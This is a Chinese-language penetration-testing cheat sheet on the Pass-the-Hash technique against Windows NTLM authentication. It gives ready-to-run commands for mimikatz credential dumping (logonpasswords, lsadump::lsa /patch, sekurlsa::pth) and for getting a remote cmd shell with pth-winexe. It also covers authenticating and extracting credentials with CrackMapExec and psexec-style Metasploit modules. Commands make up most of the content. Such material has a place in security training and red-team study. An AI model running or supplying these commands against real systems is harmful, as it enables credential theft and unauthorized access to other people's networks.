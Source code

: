 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的且使用NTLM协议的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 需要找到目标用户账户的NTLM哈希
* 目标域名
* 目标系统必须支持SMB / WMI / RPC 等远程认证协议

## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 权限提升
privilege::debug
# 获取详细的用户凭证信息
sekurlsa::logonpasswords full
# 列出当前用户的凭据
lsadump::lsa /patch
# 获取DC上的所有域用户的NTLM哈希
sekurlsa::msv
# 执行，以允许在目标域中以administrator的身份使用NTLM哈希来进行身份验证
sekurlsa::pth /user:Administrator /domain:target.com /ntlm:123CDVEE.....NDFE6654GDS
# 使用例如pth-winexe之类的的工具执行自定义的程序（如cmd.exe可获得一个目标上的shell）
```

### pth-winexe

* 当找到了目标账户的NTLM哈希之后，可以将其当成密码来使用，绕过输入明文密码来进行身份验证，从而获取到shell：

```bash
# pth-winexe -U [域名/用户名]%[hash] //[目标IP] cmd.exe
pth-winexe -U Administrator%00000000000000000000000000000000:123CDVEE.....NDFE6654GDS //192.168.xxx.xxx cmd
```

### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

```bash
# 使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD
# 在域环境中使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD -d target.com
# 列出活动会话
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --sessions
# 利用NTLM哈希来获取TGT票据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --kerberos
# 利用NTLM哈希直接使用mimikatz提取凭据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --mimikatz
# 仅以smb模块举例，还有其他模块
```



### Metasploit

```bash
# psexec模块
use exploit/windows/smb/psexec
# wmiexec模块
use auxiliary/admin/smb/wmiexec
# smb_login模块
use auxiliary/scanner/smb/smb_login
# smbexec模块
use exploit/windows/smb/smbexec
```

{% hint style="info" %}
哈希传递攻击分为针对本地用户账户和域用户账户，通过抓取目标用户的NTLM哈希来绕过明文密码登录，其本质就是冒充特定的用户账户。
{% endhint %}
